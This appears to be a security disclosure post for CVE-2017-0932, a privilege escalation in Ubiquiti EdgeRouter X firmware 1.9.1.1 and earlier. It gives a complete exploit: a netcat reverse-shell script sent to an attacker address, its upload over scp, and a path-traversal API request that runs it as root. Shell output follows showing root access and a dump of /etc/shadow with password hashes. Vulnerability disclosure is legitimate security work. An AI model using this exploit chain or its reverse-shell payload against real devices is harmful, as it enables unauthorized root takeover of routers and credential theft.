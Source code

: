 ```yaml
---
layout: post
title:  "UBNT EdgeRouter X <= v1.9.1.1 Local Privilege Escalation"
date:   2018-03-05
categories: embedded-hacking
tags: embedded-devices hacking-embedded IoT-hacking ubnt cve
lang: en
ref: cve-2017-0932
---
```



UBNT EdgeOS version 1.9.1.1 and prior, consequence of the lack of validation on the input of the Feature functionality, an attacker with access to an operator (read-only) account and ssh connection to the devices, can escalate privileges to admin (root) access in the system.

- Vendor: Ubiquiti Networks
- Device: Edger Router X
- Affected Version: 1.9.1.1 and prior
- CVE-ID: CVE-2017-0932

### Details

The EdgeRouter X (firmware v1.9.1.1) is susceptible to a local privilege escalation due a Path Traversal vulnerability in the Feature API. This vulnerability allows an attacker with non-privileged access (read-only) to execute commands on the device with the root rights. The attack consists in sending a maliciously crafted file (using scp with a non-privileged account) to the device and then calling the vulnerable API exploiting the Path Traversal. The exploitation will result on the crafted file being executed with root permission, giving the attacker full access to the device.

### Exploitation

First of all, we have to create the following file+directory:

```
$ cat Backdoor/wizard-run
#!/bin/bash
/usr/bin/nc 192.168.2.2:1337 -e /bin/bash &
```


Using a non-privileged 'operator' user, it was possible to upload the file to the device using the scp command:

```
$ scp -r Backdoor operator@192.168.2.1:~
Welcome to EdgeOS

By logging in, accessing, or using the Ubiquiti product, you
acknowledge that you have read and understood the Ubiquiti
License Agreement (available in the Web UI at, by default,
http://192.168.1.1) and agree to be bound by its terms.

operator@192.168.2.1's password: 
wizard-run       
```

After that, using a valid operator session and a path traversal vulnerability, it was possible to call the uploaded file with root privilege:


```
POST /api/edge/feature.json HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:53.0) Gecko/20100101 Firefox/53.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Referer: https://192.168.2.1/
Content-Type: application/json
X-CSRF-TOKEN: 4310724fdcab5474ab225a105bd6f86d43247dbaf5b7f4aa2ec329a641ec55ec
X-Requested-With: XMLHttpRequest
Content-Length: 90
Cookie: ip_address_top_user_option=total_bytes; PHPSESSID=i6um09hej0ku2k5ctcp6ib56f1nrqhi7; X-CSRF-TOKEN=4310724fdcab5474ab225a105bd6f86d43247dbaf5b7f4aa2ec329a641ec55ec
Connection: close

{"data":{"scenario":"../../../../../home/operator/Backdoor","action":"load"}}
```


And a remote shell will be created:

```
$ nc -lvp 1337
Listening on [0.0.0.0] (family 0, port 1337)
Connection from 192.168.2.1 44440 received!
id
uid=0(root) gid=102(vyattacfg)
uname -a
Linux ubnt 3.10.14-UBNT #1 SMP Sat Apr 22 06:38:07 PDT 2017 mips GNU/Linux
cat /etc/shadow
root:!:17283:0:99999:7:::
daemon:*:17283:0:99999:7:::
bin:*:17283:0:99999:7:::
games:*:17283:0:99999:7:::
.. snip snip ..
avahi:*:17283:0:99999:7:::
sshd:*:17283:0:99999:7:::
tss:*:17283:0:99999:7:::
ubnt:$1$zKNoUbAo$gomzUbYvgyUMcD436Wo66.:16436:0:99999:7:::
operator:$6$7SVNi.WB68V0QR5t$efMoCyT2H.mEU6M8s2NDSsW1fv7JnT2eAfK2VxuzsIdcYrEvWCILX8G0CYN/4enwrnT1yYjekQa95TxxHxhVj.:16436:0:99999:7:::
```

### Recommendation

Upgrade the firmware to the last available version.
